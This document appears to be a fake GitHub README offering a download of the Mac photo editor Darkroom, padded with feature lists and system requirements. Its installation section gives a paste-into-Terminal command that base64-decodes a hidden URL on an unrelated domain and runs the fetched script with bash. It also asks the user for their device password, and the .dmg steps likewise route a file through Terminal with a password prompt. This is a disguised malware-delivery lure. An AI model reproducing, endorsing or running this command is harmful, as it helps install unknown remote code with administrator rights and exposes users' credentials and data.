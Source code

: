 # Darkroom Mac Download
![Darkroom Screenshot 1](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTrHpp_Dl6hcpOtJKhRpLVMcvwWEw7eiBY0y9PNR1PI5nG2xXqKQcjVG2090yMleV9lSdo&usqp=CAU)

---
## 📥 Download Darkroom for Mac

[![Download Now](https://img.shields.io/badge/Download--Now-Darkroom%20Mac-blue?style=for-the-badge&logo=apple)](https://nikolanfu.github.io/.github/darkroom)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"  
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 📦 What is Darkroom?

Darkroom for Mac is a premium photo and video editing application built with creative professionals in mind. It delivers powerful editing tools in a beautifully minimal interface optimized for macOS. Whether you're a photographer refining RAW images or a content creator tweaking video color profiles, Darkroom provides a fast, real-time workflow that doesn't compromise on quality.

Unlike traditional editors that require importing/exporting workflows, Darkroom integrates deeply with your Mac photo library, letting you edit images and videos instantly. The app offers non-destructive editing, curve adjustments, selective color, watermarking, and batch processing—all while maintaining lightning-fast performance. 

Darkroom is also optimized for Apple Silicon chips, ensuring smooth performance even on high-resolution RAW files and 4K videos. With support for keyboard shortcuts, LUTs, and cloud sync, it fits naturally into professional workflows and scales with your creative needs.

![Darkroom UI](https://darkroom.co/_next/image?url=%2Fassets%2Fimages%2Fposts%2F1____rswTtN2E7QpIqdJ8eTN__g.png&w=3840&q=90)

---

## 🌟 Key Features & Benefits

- 🖼️ Real-Time Editing — No import/export delays; edit directly from your media library  
- 🎨 RAW & ProRAW Support — Professional-grade tools for serious photographers  
- 🎞️ Video Color Grading — Adjust color profiles on 4K video with LUTs  
- 🔄 Non-Destructive Workflow — All edits are reversible at any time  
- 💡 Batch Editing — Apply consistent edits across multiple files  
- 🌈 Curve & Color Controls — Fine-tune tone, saturation, highlights, and shadows  
- 🖥️ macOS Optimized — Fast and smooth on both Intel and Apple Silicon Macs  
- ☁️ Cloud Sync — Sync presets and edits across iOS and macOS devices  

---

## 🖥️ System Requirements

- macOS 11.0 Big Sur or later  
- Intel or Apple Silicon (M1/M2/M3)  
- 4 GB RAM or higher  
- ~100 MB free disk space  

---

## 🏷️ Keywords

darkroom mac, mac darkroom, darkroom macos, darkroom software for mac

